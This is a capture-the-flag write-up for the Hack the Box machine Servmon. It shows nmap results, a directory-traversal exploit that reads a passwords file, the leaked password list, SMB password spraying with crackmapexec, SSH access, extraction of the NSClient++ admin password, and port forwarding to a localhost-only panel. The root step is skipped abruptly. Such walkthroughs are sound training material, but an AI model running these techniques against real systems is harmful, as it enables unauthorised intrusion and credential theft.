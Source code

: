 +++
title = "Hack the Box: Servmon"
date = 2023-02-05
description = "Hack the Box: Servmon"
tags = [
    "Hack the Box",
    "Write-up"
]
categories = [
    "Hack the Box",
    "Write-up"
]
series = ["Hack the Box"]
+++

Hack the Box: Servmon

<!--more-->

# Servmon

## Enumeration

### Nmap

```
# sudo nmap -sV -sC -O -nvv 10.10.10.184 -Pn

PORT     STATE SERVICE       REASON          VERSION
21/tcp   open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_01-18-20  12:05PM       <DIR>          Users
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp   open  ssh           syn-ack ttl 127 OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 b9:89:04:ae:b6:26:07:3f:61:89:75:cf:10:29:28:83 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDnC92+BCplDo38VDQIZzb7V3HN/OucvxF0VMDDoYShdUrpDUW6JcSR/Zr6cADbHy7eDLw2O+WW+M4SzH7kfpbTv3HvJ0z8iOsRs2nUrUint4CR/A2vYA9SFOk18FU0QUS0sByBIlemU0uiPxN+iRCcpFhZDj+eiVRF7o/XxNbExnhU/2n9MXwFS8XTYNeGqSLE1vV6KdpMfpJj/yey8gvEpDQTX5OQK+kkUHze3LXLyu/XVTKzfqUBMAP+IQ5F6ICWgaC1a+cx/D7C/aobCbqaXY+75t1mxbEMmm1Wv/42nVQxcT7tN2C3sds4VJkYgZKcBhsE0XdJcR9mTb1wWsg9
|   256 71:4e:6c:c0:d3:6e:57:4f:06:b8:95:3d:c7:75:57:53 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMToH2eB7rzpMZuvElpHYko/TXSsOfG8EXWQxmC/T4PCaAmVRDgJWEFMHgpRilSAKoOBlS2RHWNpMJldTFbWSVo=
|   256 15:38:bd:75:06:71:67:7a:01:17:9c:5c:ed:4c:de:0e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILbqSRVLRJFVNhD0W0C5xB7b3RoJZZKdM+jSGryFWOQa
80/tcp   open  http          syn-ack ttl 127
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 127
5666/tcp open  tcpwrapped    syn-ack ttl 127
6699/tcp open  napster?      syn-ack ttl 127
8443/tcp open  ssl/https-alt syn-ack ttl 127
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|     Location: /index.html
|     iday
|     :Saturday
|     workers
|_    jobs
| http-methods: 
|_  Supported Methods: GET
| http-title: NSClient++
```

Connect to tcp, cd /users/ find files there giving clues/tips.

[https://github.com/AleDiBen/NVMS1000-Exploit](https://github.com/AleDiBen/NVMS1000-Exploit "https://github.com/AleDiBen/NVMS1000-Exploit")
[https://docs.nsclient.org/](https://docs.nsclient.org/ "https://docs.nsclient.org/")

```
# python3 nvms.py 10.10.10.184 /users/Nathan/Desktop/Passwords.txt
[+] DT Attack Succeeded
[+] File Content

++++++++++ BEGIN ++++++++++
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
++++++++++  END  ++++++++++
```

Put those password in a file dans pass it in crackmapexec:

```
# crackmapexec smb 10.10.10.184 -u Nadine -p pass-servmon.txt
...
SMB         10.10.10.184    445    SERVMON          [+] SERVMON\Nadine:L1k3B1gBut7s@W0rk
...
# crackmapexec smb 10.10.10.184 -u Nathan -p pass-servmon.txt
```

We can see we have Nadine has a read access to a share

```
# crackmapexec smb 10.10.10.184 -u Nadine -p L1k3B1gBut7s@W0rk --shares
SMB         10.10.10.184    445    SERVMON          [*] Windows 10.0 Build 18362 x64 (name:SERVMON) (domain:SERVMON) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [+] SERVMON\Nadine:L1k3B1gBut7s@W0rk 
SMB         10.10.10.184    445    SERVMON          [+] Enumerated shares
SMB         10.10.10.184    445    SERVMON          Share           Permissions     Remark
SMB         10.10.10.184    445    SERVMON          -----           -----------     ------
SMB         10.10.10.184    445    SERVMON          ADMIN$                          Remote Admin
SMB         10.10.10.184    445    SERVMON          C$                              Default share
SMB         10.10.10.184    445    SERVMON          IPC$            READ            Remote IPC
```

Let’s try to SSH with her credentials:

```
# ssh Nadine@10.10.10.184
# cd Desktop
# type user.txt
34c11d0537a6c54eaedaf0e70fa41a21
```

And we get the user hash.

```
nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display
Current password: ew2x6SsGTxjRwXOT
```

NSClient++ is vulnerable to a PE: [https://www.exploit-db.com/exploits/46802](https://www.exploit-db.com/exploits/46802 "https://www.exploit-db.com/exploits/46802").

`Type nsclient.ini` allow only localhost to access to the admin dashboard `allowed host = 127.0.0.1` let’s do a port forwarding to abuse that. Launch ssh service `ssh -L 8443:127.0.0.1:8443 Nadine@10.10.10.184` and then open `https://127.0.0.1:8443`. C:\Users\Administrator\Desktop>type root.txt type root.txt 65b04c7b20598ff912c3dce1d317d579

[https://fdlucifer.github.io/2020-04-23-ServMon.html](https://fdlucifer.github.io/2020-04-23-ServMon.html "https://fdlucifer.github.io/2020-04-23-ServMon.html")
